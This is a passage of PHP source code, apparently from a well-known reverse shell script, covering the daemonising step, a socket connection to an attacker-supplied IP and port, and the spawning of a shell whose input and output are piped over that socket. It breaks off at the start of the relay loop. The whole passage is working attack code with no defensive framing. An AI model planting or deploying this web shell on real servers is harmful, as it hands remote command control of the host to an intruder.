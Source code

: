 ```php
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
```